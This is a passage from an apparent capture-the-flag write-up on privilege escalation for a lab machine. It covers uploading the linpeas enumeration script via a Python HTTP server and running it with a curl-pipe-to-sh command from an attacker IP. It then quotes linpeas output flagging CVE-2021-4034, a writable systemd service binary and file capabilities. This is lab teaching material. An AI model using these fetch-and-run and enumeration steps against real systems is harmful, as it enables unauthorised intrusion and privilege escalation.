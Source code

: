 
## Privilege escalation enumeration
Now onto the root flag. We now have to find a way to escalate our privileges to root. 

We begin by enumerating the linux machine using `linpeas`

First we need to get the `linpeas.sh` enumeration script onto the target. Identical to our approach for installing the ssh public key, we will download the `linpeas.sh` script locally and use a python http server to upload it to the target. 

Linpeas can be downloaded from [here](https://github.com/carlospolop/PEASS-ng) if you don't already have it available. 

Now navigate to where the `linpeas.sh` script resides and run a python http server. 

```
python3 -m http.server --bind 10.9.0.65 8000
```

Now on the target machine, use curl to download and pipe to sh the script. 

```
curl http://10.9.0.65:8000/linpeas.sh | sh
```

Wait for the linpeas.sh enumeration script to complete and then review its output. 

Reviewing the output of linpeas, we observe the following interesting privesc vectors. 

```
╔══════════╣ CVEs Check
Vulnerable to CVE-2021-4034    


╔══════════╣ Analyzing .service files
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#services                          
/etc/systemd/system/multi-user.target.wants/server.service is calling this writable executable: /home/mindgames/webserver/server                                                                          
/etc/systemd/system/server.service is calling this writable executable: /home/mindgames/webserver/server                                                                                                  
You can't write on systemd PATH


╔══════════╣ Capabilities
╚ https://book.hacktricks.xyz/linux-hardening/privilege-escalation#capabilities                      
Current capabilities:                                                                                
Current: =
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Shell capabilities:
0x0000000000000000=
CapInh: 0000000000000000
CapPrm: 0000000000000000
CapEff: 0000000000000000
CapBnd: 0000003fffffffff
CapAmb: 0000000000000000

Files with capabilities (limited to 50):
/usr/bin/mtr-packet = cap_net_raw+ep
```